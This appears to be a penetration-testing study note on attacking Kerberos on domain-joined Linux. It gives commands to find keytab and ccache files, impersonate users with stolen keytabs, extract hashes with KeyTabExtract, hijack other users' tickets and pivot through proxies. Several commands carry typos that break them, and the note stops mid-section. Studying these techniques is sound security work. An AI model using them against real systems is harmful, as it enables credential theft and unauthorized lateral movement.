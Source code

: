# Kerberos on Linux
- Linux stores Kerberos tickets as ccache files in /tmp. 
- By default, the location of the Kerberos ticket is stored in the environmnet variable KRB5CCNAME.
- Keytab file: contains pairs of Kerberos principals and encyrpted keys.

# Scenario
- LINUX01 is connected to Domain Controller, can only be reached by MS01
- Two ways to connect to LINUX01:
    - RDP to MS01, then from MS01 SSH to LINUX01
    - Use portforwarding
    ```shell
    ssh $USER@$DOMAIN@$IP -p 2222
    
    # By connecting to port TCP/2222 on MS01, we will gain access to port TCP/22 on LINUX01
    ```
    
# Identify Linux and Active Directory Integration
### Check if Linux is Domain joined
  - realm
    ```shell
      realm list
    ```
  - PS
    ```shell
      ps -ef | grep -i "windbind\|sssd"
    ```
# Finding Kerberos Tickets in Linux
### Finding Keytab files
- Using Find
```shell
  find / -name *keytab* -ls 2>/dev/null
```
### Identify Keytab Files in Cronjobs
```shell
  crontab -l
```
- Look for **kinit**, which allows interation with Kerberos, and its function si to request the users's TGT and store this ticket in the cache. 
### Finding ccache Files
- Review Environemnet Variables for ccache files
```shell
  env | grep -i krb5
```
### Search for ccache files in /tmp
```shell
  ls -la /tmp
```
# Abusing KeyTab files
### Listing Keytab file information
```shell
  klsit -k -t
```
1. Impersonating a user wiht a keytab
```shell
  klist
  kinit $USER@DOMAIN -k -t /opt/specialfiles/$USER.keytab
  klist
```
- Connect to SMB as the user
```shell
  smblcient //$DOMAIN/$USER -k -c ls
```
- NOTE: to keep the ticket from the current session, before importing the keytab, save a copy of the ccache file present in the environment variable KRB5CCNAME

2. Keytab Extract
- Use ![KeyTabExtract](https://github.com/sosdave/KeyTabExtract) to extract valuable information from 502-type .keytab files.
```shell
python3 /opt/keytabextract.py /opt/specialfiles/$USER.keytab
```
- Log in as the user
```shell
  su - $USER@DOMAIN
  klist
```
- Obtain more hashes: we can continue investigate the keytab file found in the cronjob, repeat the process and gain more hashes.

# Abuse Keytab ccache
- Escalte privilege (when possible) to read the ccache files
```shell
  ls -la /tmp
```
- Check the group of the users:
```shell
id $USER@$DOMAIN
```
- To use ccache file, we need to assign the file to the KRB5CCNAME variable
```shell
  cp /tmp/$CCACHEFILE .
  export KRB5CCNAME=/root/$CCACHEFILE
  klist
```

-------------------------------
# Using Linux Attack Tools with Kerberos
-------------------------------
- When using tools from a domain-joined machine, we need to ensure our KRB5CCNAME environment variable is set to the ccache file we want to use. When attacking from a machine that is not a member of domain, we need to use ![Chisel](https://github.com/jpillora/chisel) ![proxychains](https://github.com/haad/proxychains) and edit the host file.
- 


